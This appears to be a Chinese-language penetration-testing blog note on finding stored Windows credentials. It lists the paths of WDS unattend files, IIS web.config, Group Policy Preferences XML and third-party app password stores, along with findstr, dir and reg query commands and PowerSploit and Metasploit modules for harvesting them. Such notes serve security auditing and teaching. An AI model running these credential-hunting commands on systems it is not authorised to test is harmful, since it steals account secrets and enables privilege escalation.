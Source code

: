 ```yaml
---
title: "收集Windows用户凭证"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:22+08:00
tags: ["windows"]
draft: false
---
```


通过搜索本地存储的管理员凭证, 是最直接简单的提权方法


## Windows Deployment Services {#windows-deployment-services}

WDS，Windows 部署服务，主要应用于大中型网络中的计算机操作系统的批量化部署。使用
WDS 可以通过网络管理和部署映像以及进行无交互的安装（unattended installation）。

优势：

-   降低部署难度以及手动安装付出的时间成本
-   允许基于网络安装 Windows 操作系统
-   可以在无操作系统的主机上安装操作系统

过程：

1.  客户端在启动过程中，通过 DHCP 服务器得到 IP 地址
2.  客户端通过广播或 `DHCP` 查找到 WDS 服务器，并尝试连接它，启动 `Windows PE`
3.  客户端开始安装 WDS 服务器上的操作系统映像，完成所有安装工作

当使用 WDS 部署 Windows 后，管理员的密码会以 `base64` 编码保存在以下的某个路径中：

```nil
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

使用 msf 模块发现 WDS 的登录凭证：use post/windows/gather/enum_unattend


## IIS 配置文件 {#iis-配置文件}

如果主机上允许了 IIS, 配置文件 `web.config` 中可能有管理员的明文密码

常见路径:

```nil
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

包含管理员密码的 `web.config` 文件例子:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<authentication mode="Windows">
<forms>
<credentials passwordFormat="Clear">
<user name="Admin" password="Admin" />
</credentials>
</forms>
</authentication>
</system.web>
</configuration>
```


## Group Policy Preferences {#group-policy-preferences}

组策略的相关文件 `Groups.xml` 包含用户密码, 可以在本地缓存或者 DC 中找到, 密码是加
密存储的, 但微软发布了它的密钥, 可以进行破解

```nil
C:\ProgramData\Microsoft\Group Policy\History\????\Machine\Preferences\Groups\Groups.xml
\\????\SYSVOL\\Policies\????\MACHINE\Preferences\Groups\Groups.xml
```

除了组策略, 其他策略的相关文件也可能包含密码:

```nil
Services\Services.xml
ScheduledTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```


## 搜索密码的命令 {#搜索密码的命令}

查找包含 `password` 关键字的文件:

```nil
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
```

查找可能包含密码的敏感文件:

```nil
C:\> dir /b /s unattend.xml
C:\> dir /b /s web.config
C:\> dir /b /s sysprep.inf
C:\> dir /b /s sysprep.xml
C:\> dir /b /s *pass*
C:\> dir /b /s vnc.ini
```


## 第三方应用 {#第三方应用}

一些常见的第三方应用, 以及它们用来保存密码的文件

-   McAfee

    ```text
    %AllUsersProfile%Application Data\McAfee\Common Framework\SiteList.xml
    ```

-   UltraVNC
    ```nil
      [ultravnc]
      passwd=5FAEBBD0EF0A2413
    ```

-   RealVNC

    ```text
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
    ```

-   Putty

    ```text
    reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"
    ```

-   Registry
    ```nil
      reg query HKLM /f password /t REG_SZ /s
      reg query HKCU /f password /t REG_SZ /s
    ```

-   Windows Autologin

    ```text
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    ```

-   SNMP Parameters

    ```text
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    ```


## PowerSploit {#powersploit}

PowerSploit 中查找登录凭证的命令:

```nil
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```
